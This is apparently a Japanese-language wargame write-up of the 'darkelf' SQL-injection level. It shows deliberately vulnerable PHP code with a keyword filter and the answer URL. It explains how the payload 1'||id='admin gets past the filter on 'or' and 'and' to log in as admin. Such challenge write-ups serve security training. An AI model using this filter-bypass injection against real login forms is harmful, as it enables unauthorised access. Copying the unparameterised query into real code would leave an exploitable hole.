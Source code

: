 # darkelf

## answer

```
https://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=1%27%7C%7Cid=%27admin
```

## problem

```
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

## memo

寝起きで早朝に取り組んでいる。

さて、試しに、

```
https://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=1
```

とすると

```
query : select id from prob_darkelf where id='guest' and pw='1'
```

となった。

コードを読んでいく。

```
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
```

とあるので、orとand、ORとANDは禁止されている。

昨日もこれを使った気がするが、orの代わりに||を使ってみる。

```
if($result['id'] == 'admin') solve("darkelf"); 
```

クリア条件はこれなので、

```
?pw=1'||id='admin
```

これでいけた。

```
https://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=1%27%7C%7Cid=%27admin
```

```
query : select id from prob_darkelf where id='guest' and pw='1'||id='admin'
```

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)